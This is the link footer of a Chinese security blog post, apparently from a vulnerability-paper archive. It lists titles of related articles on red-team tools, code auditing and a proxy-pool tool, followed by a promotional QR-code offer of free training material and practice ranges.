[渗透工具 | 红队常用的那些工具分享](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247495811&idx=1&sn=122c664b1178d563ef5e071e0bfd7e28&chksm=fa6b89f2cd1c00e4327d6516c25fcfd2616cf7ae8ddef2a6e869b4a6ab6afad2a6788bf0d04a&scene=21#wechat_redirect)  

[代码审计 | 这个 CNVD 证书拿的有点轻松](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247503150&idx=1&sn=189d061e1f7c14812e491b6b7c49b202&chksm=fa6bb45fcd1c3d490cdfa59326801ecb383b1bf9586f51305ad5add9dec163e78af58a9874d2&scene=21#wechat_redirect)

 [代理池工具撰写 | 只有无尽的跳转，没有封禁的 IP！](http://mp.weixin.qq.com/s?__biz=MzUyODkwNDIyMg==&mid=2247503462&idx=1&sn=0b696f0cabab0a046385599a1683dfb2&chksm=fa6bb717cd1c3e01afc0d6126ea141bb9a39bf3b4123462528d37fb00f74ea525b83e948bc80&scene=21#wechat_redirect)
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


扫码白嫖视频 + 工具 + 进群 + 靶场等资料


 **扫码白嫖****！**

 **还有****免费****的配套****靶场****、****交流群****哦！**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
